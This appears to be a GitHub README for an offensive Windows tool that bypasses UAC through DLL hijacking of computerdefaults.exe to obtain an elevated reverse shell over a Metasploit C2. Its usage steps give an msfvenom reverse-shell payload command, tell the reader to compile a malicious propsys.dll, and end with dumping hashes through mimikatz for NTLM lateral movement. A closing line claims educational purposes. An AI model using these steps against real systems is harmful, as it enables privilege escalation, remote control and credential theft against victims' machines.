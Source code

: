 # C2_Elevated_Shell_DLL_Hijcking
DLL Hijacking and Mock directories technique to bypass Windows UAC security feature and getting high-level privileged reverse shell. Security researchers identified this technique which uses a simplified process of DLL hijacking and mock folders to bypass UAC control. I tested this on Windows 10,11 and bypassed Windows 10 UAC security feature.  I am using Metasploit as a C2 server in order to get reverse shell and “computerdefaults.exe” binary to perform DLL hijacking attack. If an attacker got access of that user than he will escalate privileges in order to dump hashes and try to authenticate within network using NTLM hashes of that user. What if an attacker got elevated reverse shell of user, he don’t need to escalate privileges because he already got administrative shell on C2 server.


# USAGE
1) Create your shellcode using msfvenom (msfvenom -p windows/x64/shell_reverse_tcp lhost=0.0.0.0 lport=555 -f CSharp)
2) Compile Dllmain.cpp to create malicous DLL and rename propsys.dll
3) Put propsys.dll and batch file in same directory
4) Start Metasploit listener before executing batch script.
5) You will get elevated shell over C2 server.
6) Load mimikatz in order to dump hashes.

![1_QlGStDVsHu1ZemehjNZObQ](https://user-images.githubusercontent.com/76246439/160832289-1f5e660e-3ee9-4cfc-9b1f-32d9183135d3.png)
![1_h-WeaeVpN6P7F5Z6M_kKdA](https://user-images.githubusercontent.com/76246439/160832352-1d89318f-879d-400b-8644-41870958afa0.png)
![1_n9Px514ZD_KLLmSu3z4bug](https://user-images.githubusercontent.com/76246439/160832398-b9330b4f-00b7-47df-8bb3-00ed78577396.png)

# Only for educational purposes.



